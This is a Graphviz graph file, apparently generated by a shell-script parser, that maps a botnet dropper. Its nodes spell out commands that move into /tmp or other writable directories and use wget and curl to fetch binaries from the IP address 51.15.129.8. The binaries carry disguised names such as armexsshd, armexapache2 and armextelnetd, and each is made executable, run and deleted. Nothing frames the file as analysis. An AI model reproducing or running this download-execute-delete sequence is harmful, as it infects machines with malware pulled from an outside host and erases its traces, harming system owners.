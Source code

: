 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://51.15.129.8/armexntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://51.15.129.8/armexntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x armexntpd "];
14 -> 16 [label=";,"];
16 [label="./armexntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf armexntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://51.15.129.8/armexsshd "];
30 -> 32 [label=";,"];
32 [label="curl -O http://51.15.129.8/armexsshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x armexsshd "];
34 -> 36 [label=";,"];
36 [label="./armexsshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf armexsshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://51.15.129.8/armexopenssh "];
50 -> 52 [label=";,"];
52 [label="curl -O http://51.15.129.8/armexopenssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x armexopenssh "];
54 -> 56 [label=";,"];
56 [label="./armexopenssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf armexopenssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://51.15.129.8/armexbash "];
70 -> 72 [label=";,"];
72 [label="curl -O http://51.15.129.8/armexbash "];
72 -> 74 [label=";,"];
74 [label="chmod +x armexbash "];
74 -> 76 [label=";,"];
76 [label="./armexbash "];
76 -> 78 [label=";,"];
78 [label="rm -rf armexbash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://51.15.129.8/armextftp "];
90 -> 92 [label=";,"];
92 [label="curl -O http://51.15.129.8/armextftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x armextftp "];
94 -> 96 [label=";,"];
96 [label="./armextftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf armextftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://51.15.129.8/armexwget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://51.15.129.8/armexwget "];
112 -> 114 [label=";,"];
114 [label="chmod +x armexwget "];
114 -> 116 [label=";,"];
116 [label="./armexwget "];
116 -> 118 [label=";,"];
118 [label="rm -rf armexwget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://51.15.129.8/armexcron "];
130 -> 132 [label=";,"];
132 [label="curl -O http://51.15.129.8/armexcron "];
132 -> 134 [label=";,"];
134 [label="chmod +x armexcron "];
134 -> 136 [label=";,"];
136 [label="./armexcron "];
136 -> 138 [label=";,"];
138 [label="rm -rf armexcron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://51.15.129.8/armexftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://51.15.129.8/armexftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x armexftp "];
154 -> 156 [label=";,"];
156 [label="./armexftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf armexftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://51.15.129.8/armexpftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://51.15.129.8/armexpftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x armexpftp "];
174 -> 176 [label=";,"];
176 [label="./armexpftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf armexpftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://51.15.129.8/armexsh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://51.15.129.8/armexsh "];
192 -> 194 [label=";,"];
194 [label="chmod +x armexsh "];
194 -> 196 [label=";,"];
196 [label="./armexsh "];
196 -> 198 [label=";,"];
198 [label="rm -rf armexsh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://51.15.129.8/armexnut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://51.15.129.8/armexnut "];
212 -> 214 [label=";,"];
214 [label="chmod +x armexnut "];
214 -> 216 [label=";,"];
216 [label="./armexnut "];
216 -> 218 [label=";,"];
218 [label="rm -rf armexnut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://51.15.129.8/armexapache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://51.15.129.8/armexapache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x armexapache2 "];
234 -> 236 [label=";,"];
236 [label="./armexapache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf armexapache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://51.15.129.8/armextelnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://51.15.129.8/armextelnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x armextelnetd "];
254 -> 256 [label=";,"];
256 [label="./armextelnetd "];
256 -> 257 [label=";,"];
}
